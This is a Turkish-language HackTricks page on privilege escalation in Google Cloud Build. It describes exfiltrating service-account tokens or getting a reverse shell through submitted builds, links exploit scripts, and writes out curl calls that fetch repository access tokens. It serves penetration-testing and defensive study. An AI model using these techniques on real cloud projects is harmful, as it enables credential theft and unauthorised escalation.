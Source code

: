 # GCP - Cloudbuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudbuild

Cloud Build hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../gcp-services/gcp-cloud-build-enum.md
{{#endref}}

### `cloudbuild.builds.create`

Bu izinle **bir cloud build gönderebilirsiniz**. Cloudbuild makinesi, dosya sisteminde **varsayılan olarak bir cloudbuild Hizmet Hesabı token'ı** bulunduracaktır: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Ancak, cloudbuild yapılandırmasında **projede herhangi bir hizmet hesabını belirtebilirsiniz**.\
Bu nedenle, makinenin token'ı sunucunuza dışarıya sızdırmasını sağlayabilir veya **içinde bir ters shell alarak token'ı elde edebilirsiniz** (token'ı içeren dosya değişebilir).

Orijinal exploit scriptini [**burada GitHub'da**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) bulabilirsiniz (ancak token'ı aldığı yer benim için çalışmadı). Bu nedenle, [**bir vuln ortamının oluşturulması, istismar edilmesi ve temizlenmesi için bir scripti burada**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) ve cloudbuild makinesinde bir ters shell almak için bir python scriptini [**burada çalmak için**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) bulabilirsiniz (kodda diğer hizmet hesaplarını nasıl belirteceğinizi bulabilirsiniz)**.**

Daha derinlemesine bir açıklama için [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/) adresini ziyaret edin.

### `cloudbuild.builds.update`

**Potansiyel olarak** bu izinle **bir cloud build'i güncelleyebilir ve sadece hizmet hesabı token'ını çalabilirsiniz**; bu, önceki izinle gerçekleştirildiği gibi (ama ne yazık ki bu yazının yazıldığı sırada o API'yi çağırmanın bir yolunu bulamadım).

TODO

### `cloudbuild.repositories.accessReadToken`

Bu izinle kullanıcı, depoya erişmek için kullanılan **okuma erişim token'ını** alabilir:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
### `cloudbuild.repositories.accessReadWriteToken`

Bu izinle kullanıcı, depoya erişmek için kullanılan **okuma ve yazma erişim jetonunu** alabilir:
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
### `cloudbuild.connections.fetchLinkableRepositories`

Bu izinle **bağlantının erişim sağladığı reposları alabilirsiniz:**
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{{#include ../../../banners/hacktricks-training.md}}
